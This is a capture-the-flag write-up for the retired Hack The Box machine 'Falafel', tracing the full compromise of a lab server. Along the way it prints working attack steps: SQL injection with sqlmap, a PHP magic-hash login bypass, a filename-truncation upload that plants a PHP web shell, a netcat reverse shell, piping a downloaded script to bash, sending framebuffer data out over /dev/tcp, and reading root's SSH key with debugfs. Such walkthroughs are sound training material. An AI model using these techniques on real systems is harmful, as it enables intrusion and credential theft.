



# Falafel

This is the write-up for the box Falafel that got retired at the 23rd June 2018.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.73    Falafel.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/Falafel.nmap 10.10.10.73
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 36:c0:0a:26:43:f8:ce:a8:2c:0d:19:21:10:a6:a8:e7 (RSA)
|   256 cb:20:fd:ff:a8:80:f2:a2:4b:2b:bb:e1:76:98:d0:fb (ECDSA)
|_  256 c4:79:2b:b6:a9:b7:17:4c:07:40:f3:e5:7c:1a:e9:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/*.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Falafel Lovers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page forwards to _index.php_ and is a custom social network about falafels.
On the top right is a login button that forwards to _login.php_:



When trying out usernames it displays the message _"Try again"_, but when using _admin_ as the username it displays _"Wrong identification : admin"_.

Lets search for hidden PHP and text files with **Gobuster**:
```markdown
gobuster -u http://10.10.10.73 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt
```

If finds the following files and directories that could be interesting:
- _/uploads_
- _/upload.php_
- _/cyberlaw.txt_

The text file _cyberlaw.txt_ has the following content:
```markdown
From: Falafel Network Admin (admin@falafel.htb)
Subject: URGENT!! MALICIOUS SITE TAKE OVER!
Date: November 25, 2017 3:30:58 PM PDT
To: lawyers@falafel.htb, devs@falafel.htb
Delivery-Date: Tue, 25 Nov 2017 15:31:01 -0700
Mime-Version: 1.0
X-Spam-Status: score=3.7 tests=DNS_FROM_RFC_POST, HTML_00_10, HTML_MESSAGE, HTML_SHORT_LENGTH version=3.1.7
X-Spam-Level: ***

A user named "chris" has informed me that he could log into MY account without knowing the password,
then take FULL CONTROL of the website using the image upload feature.
We got a cyber protection on the login form, and a senior php developer worked on filtering the URL of the upload,
so I have no idea how he did it.

Dear lawyers, please handle him. I believe Cyberlaw is on our side.
Dear develpors, fix this broken site ASAP.

	~admin
```

When using _chris_ as the username on the login form, it also displays the message _"Wrong identification : chris"_.
After trying out default **SQL Injection** attempts, it seems to be vulnerable to that as the username _"admin'-- -_ responds with the same message as before.

It shows the message _"Hacking Attempt Detected!_ when trying out an **Union SQL Injection** (_"admin' union select 1-- -"_), so there is some kind of filter implemented.
This means there is some type of **Boolean-based SQL Injection** vulnerability.

### Exploiting SQL Injection Vulnerability

Lets send the request to a proxy tool like **Burpsuite** and save it into a file called _falafel_web.req_ and then send this to **SQLmap** and specify the message to scan for the injection vulnerability:
```markdown
sqlmap -r falafel_web.req --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,password --batch
```

It found the boolean-based blind SQL Injection vulnerability and we can dump the contents of the database:
```markdown
sqlmap -r falafel_web.req --level 5 --risk 3 --string "Wrong identification" --dbms mysql -p username,password --batch --dump
```
```markdown
+----+--------+---------------------------------------------+----------+
| ID | role   | password                                    | username |
+----+--------+---------------------------------------------+----------+
| 1  | admin  | 0e462096931906507119562988736854            | admin    |
| 2  | normal | d4ee02a22fc872e36d9e3751ba72ddc8 (juggling) | chris    |
+----+--------+---------------------------------------------+----------+
```

The found hashes are 32-characters long, so probably MD5 hashes and **SQLmap** cracked the password for _chris_:
> juggling

The credentials work and it shows the profile page of _chris_:
```markdown
Chris

Juggler by day, Hacker by night

Hey, my name is chris, and I work at the local circus as a juggler. After work, I always eat falafel.
By night, I pentest random websites as a hobby. It's funny how sometimes both the hobby and work have something in common..
```

The users work as a juggler and the hobby pentesting have something in common.
There is a vulnerability called **PHP Type Juggling** that this is probably referencing.

### PHP Type Juggling

The are some observations about the hash of _admin_:
- It starts with _0e_
- After the _0e_ are only digits

In PHP _0e_ means to convert something into a number and the _"e"_ stands for exponent.
This means that PHP does this math:
```markdown
0 ^ 462096931906507119562988736854 = 0
```

The result will always be zero, so if we find a hash collision that also begins with _0e_, it is going to work as the password.
These kind of hashes are called **Magic Hashes** and there are [lists available on the Internet and GitHub](https://github.com/spaze/hashes/blob/master/md5.md).

Any of the strings can be used as a password to log into the web page with _admin_. For example:
```markdown
admin:etqaTTFXeujI
```

### Exploiting the Admin Interface

The profile of _admin_ has a quote in it, that could be another hint:
```markdown
"Know your limits." -Anonymous
```

The user _admin_ has an upload feature available:



Starting a listener on port 80 and using my local client to upload an image and it sends a response back:
```markdown
http://10.10.14.2/test.gif
```
```markdown
GET /test.gif HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.2
Connection: Keep-Alive
```

It uses **Wget** to download files and does not allow file types other than image files like _png_ and _gif_.
Combining this with the hint to _"know the limits"_, it is referencing to the maximum character length in `wget`.

Linux files have a maximum filename length of 255 characters and we can trick `wget` to shorten the filename and thus upload another file type.

Creating a pattern with 251 characters, creating a file with that filename and appending _".gif"_ to make it 255 characters long:
```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 251
```
```markdown
touch Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.gif
```

Uploading the file:
```markdown
http://10.10.14.2/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai.gif
```

The file gets uploaded and `wget` automatically shortens the filename:
```markdown
The name is too long, 255 chars total.
Trying to shorten...
New name is Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah
(...)
```

The new file name is 236 characters long:
```markdown
echo -n 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah' | wc -c
```

This means we need a file with a filename of 232 characters, append _".php"_ and _".gif"_ and then it will cut the last part out to successfully upload a PHP file.

Creating file with 232 characters:
```markdown
python -c 'print "A" * 232'
```
```markdown
touch AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
```

Contents of the file:
```markdown
<?php echo system($_REQUEST['cmd']); ?>
```

Uploading the file:
```markdown
http://10.10.14.2/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
```
```markdown
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```

In the output it shows that it got uploaded to _/uploads/1107-1732_81bd4b9e347ce395_ and when browsing there and appending the name of the PHP file with a system command, it executes them:
```markdown
http://10.10.10.73/uploads/1107-1732_81bd4b9e347ce395/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=whoami
```

The output is _www-data_ and command execution was successful, so starting a reverse shell is possible:
```markdown
(...)AAAAA.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# URL-encoded:
(...)AAAAA.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.2+9001>/tmp/f
```

After sending the request the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```markdown
curl 10.10.14.2/LinEnum.sh | bash
```

One interesting result is that the user _yossi_ is currently logged into a physical terminal _tty/1_.

In the directory _/var/www/html_ are the configuration files of the web page and the file _connection.php_ has the connection configuration to the database which includes credentials of a user:
```markdown
define('DB_USERNAME', 'moshe');
define('DB_PASSWORD', 'falafelIsReallyTasty');
```

The user _moshe_ exists on the box and access via SSH works.
```markdown
ssh moshe@10.10.10.73
```

### Privilege Escalation 2

The `id` command shows that the current user _moshe_ is a member of the _video_ group.
With this membership it is possible to read monitor output and as _yossi_ is logged into a physical terminal _tty/1_, we are able to capture that monitor.

This information is stored in _/dev/fb0_ and should be downloaded to our local client for analysis:
```markdown
# On local client
nc -lvnp 9002 > fb.raw

# On box
cat /dev/fb0 > /dev/tcp/10.10.14.2/9002
```

When opening it with any image manipulation program like **GIMP**, it opens it but nothing can be read because the resolution is not correct.
The correct resolution can be found in _/sys/class/graphics/fb0/virtual_size_ and it is 1176x885.



On the screen it shows that _yossi_ did a mistake and typed a password change into the terminal:
> MoshePlzStopHackingMe!

With this password we can log into the box via SSH as _yossi_.
```markdown
ssh yossi@10.10.10.73
```

### Privilege Escalation to root

The `id` command shows that the current user _yossi_ is a member of the _disk_ group.
With this membership it is possible to access disk files and the command `debugfs` is helpful for that:
```markdown
debugfs /dev/sda1
```

In here system commands can be executed like `ls` and `cd`.
Changing directory to root and getting the contents of the private SSH key:
```markdown
debugfs:  ls
debugfs:  cd root
debugfs:  cd .ssh
debugfs:  cat id_rsa
```

With this SSH key we can log into the box as root!
```markdown
ssh -i id_rsa_root root@10.10.10.73
```
